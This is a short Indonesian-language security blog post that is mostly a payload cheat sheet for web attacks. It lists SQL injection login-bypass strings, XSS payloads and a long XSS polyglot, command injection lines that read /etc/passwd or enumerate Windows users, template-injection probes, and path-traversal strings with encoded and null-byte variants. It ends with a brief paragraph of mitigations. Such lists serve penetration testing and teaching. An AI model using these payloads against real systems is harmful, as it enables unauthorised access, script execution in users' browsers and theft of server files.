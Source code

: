 ```yaml
---
title: SQLi Authentication Bypass, XSS, XSS Polyglots, Command Injection, SSTI, Path Traversal
excerpt: SQLi Auth Bypass lewati login, XSS dan XSS Polyglots eksekusi skrip di browser, Command Injection jalanin perintah server, SSTI injeksi template, Path Traversal akses file sensitif.
date: 2024-03-31 01:37:00
tags: [1337rokudenashi]
categories:
  - [Security Researcher]
index_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/yublueflower.jpg
banner_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/1337yublueflower.jpg
---
```


SQLi Auth Bypass lewati login, XSS dan XSS Polyglots eksekusi skrip di browser, Command Injection jalanin perintah server, SSTI injeksi template, Path Traversal akses file sensitif.

**SQLi Authentication Bypass**

- `' or 1=1 limit 1 -- -+`
- `'="or'`

**XSS**

- `"><script>alert('vulnerable')</script>`
- `"><img src=vulnerable onerror=alert('vulnerable') />`
- `"><svg onload=alert('vulnerable')>`
- `"><input type=image src onerror="alert('vulnerable')">`

**XSS Polyglots**

Poliglot XSS adalah string yang mampu disuntikkan ke dalam beberapa konteks yang berbeda dan masih menghasilkan eksekusi JavaScript, ini bekerja di lebih dari 20 konteks.

- payload for xss polyglots
```polyglots
jaVasCript:/*-/*`/*`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>x3csVg/<sVg/oNloAd=alert()//>x3e
```

Kelemahan poliglot adalah mudah terdeteksi oleh firewall aplikasi web (WAF), mereka cenderung cukup panjang dalam hal panjang karakter, dan mereka tidak berfungsi di setiap konteks.

**Command Injection**

- `; uname -a; cat /etc/passwd`
- `& cmd /c "whoami & net user"`

**SSTI**

- `{{ 13*37 }}`
- `${{13*37}}`
- `<%= 13*37 %>`
- `#{13*37}`
- `{{= 13*37 }}`

**Path Traversal**

- `../../../etc/passwd`
- `/etc/passwd`
- `....//....//....//etc/passwd`
- `..%252f..%252f..%252fetc/passwd`
- `../../../etc/passwd%00.png`

Untuk SQLi Auth Bypass, gunakan prepared statements dan validasi input. Untuk XSS dan XSS Polyglots, lakukan output encoding dan sanitasi. Untuk Command Injection, batasi eksekusi dan validasi input. Untuk SSTI, hindari evaluasi input langsung. Untuk Path Traversal, batasi akses dan normalisasi path.
